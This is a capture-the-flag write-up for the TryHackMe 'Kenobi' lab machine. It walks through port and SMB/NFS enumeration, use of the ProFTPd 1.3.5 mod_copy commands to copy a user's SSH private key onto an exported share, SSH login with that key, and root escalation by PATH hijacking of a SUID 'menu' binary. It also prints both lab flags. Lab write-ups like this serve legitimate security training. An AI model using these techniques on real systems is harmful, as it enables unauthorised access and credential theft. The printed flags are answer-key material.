**THM - Kenobi (EN)**

**Author:** adi7312

## **Task 1 - Checking open ports**

We start scanning ports with command below:

    nmap -sV 10.10.157.59

We conducted scanning of host's services versions, 
it is not required in this task, but it may help us in future for example when we will be looking for exploit for particular version of particular service.



As we can see, there are 7 open ports, now we can answer the first question.

## **Task 2 - Enumerating Samba for shares**

Authors of this task gave us an advice to enumerate a machine for SMB shares. We can do that with provided by author command:

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.157.59



We found 3 SMB shares, so we can answer the question.

We can connect to machines network share using below command:

    smbclient //10.10.157.59/anonymous

We can list the files on the share with `ls` command. As a result we can see one file named *log.txt*.



We can answer the next question.

Now we download the *log.txt* file using command (during the task, the vulnerable machine stopped working and I needed to restart it, so now we have different IP address):

    smbget -R smb://10.10.5.253/anonymous

Next we want to read this file, we use command: `cat log.txt`. Now we are looking for an information about open FTP port. *log.txt* file contains also information about Kenobi when he generated his SSH key.



The FTP port is 21, we can answer the next question.

As author suggets, we start enumerationg RPC service (111 port), our objective is to determine the name of enumerated mount, to do this we use command below:

    nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.5.253



As we can see "/var" is the mount that we are looking for, so we can answer the last question in this task

## **Task 3 - Gain initial access with ProFtpd**

Our first task is to determine what is the version of ProFtpd on vulnerable system, we can step back to [first task](#task-1---checking-open-ports) and see that ProFtpd version is: `1.3.5` and this answer for 1st question. 

Now we need to determine the number of exploits for ProFTPd (1.3.5), to do this we can use *searchsploit*.

    searchsploit proftpd

As we can see for 1.3.5 version there 4 exploits. 



Next step is to connect to target machine using the command below (again, IP of target machine had changed):

    nc 10.10.247.173 21

From *log.txt* we know that the service is running as the Kenobi user. So now we will try to copy the Kenobi's private key (from /home to mount /var), to do this, we write following commands:

    SITE CPFR /home/kenobi/.ssh/id_rsa
    SITE CPTO /var/tmp/id_rsa

Now we will try to mount the /var/tmp to our local machine:

    mkdir /mnt/kenobiNFS
    mount 10.10.247.173p:/var/mnt/kenobiNFS
    ls -la /mnt/kenobiNFS



As we can see, we mounted /var successfuly, so now we have access to Kenobi's private key. Let's move to /mnt/kenobiNFS/tmp directory using `cd /mnt/kenobiNFS/tmp` and we will try to connect to target machine using ssh.

    ssh -i id_rsa kenobi@10.10.247.173



Machine has been compromised, now we can read the user's flag.



`Flag: d0b0f3f53b6caa532a83915e19224899`.

## **Task 4- Privilege Escalation with Path Variable Manipulation**

Firstly, we need to check files which have SUID bit. We can do this with this command:

    find / -perm -u=s -type f 2>/dev/null



There is one element that stands out and this is: `/usr/bin/menu` (this also answer to first question in this task). When we run this command we can see 3 intersted options, we can check status, kernel version of OS and network configs.



Answers to first two questions:



We can check what strings the `menu` command contains we can do that with command below:

    strings /usr/bin/menu



Consequently we got some output, if you look at screen above, you can see that `menu` contains strings `curl, uname, ifconfig`. So if menu contains strings like `curl` we can use this to escalate our privileges. Before that we need to do couple things.

Firstly we need to create new `curl` and save `/bin/sh` to it, we can accomplish it with this command:

    echo /bin/sh > curl

Now we need to give it appropriate permissions, use command below:

    chmod 777 curl

Now we need to put its location to our PATH:

    export PATH=/tmp:$PATH

Now we lunch `menu`:

    /usr/bin/menu

We choose options first, write `id` and we got a root! Now we can read the final flag, use `cat /root/root.txt`.

`Final flag: 177b3cd8562289f37382721c28381f02`



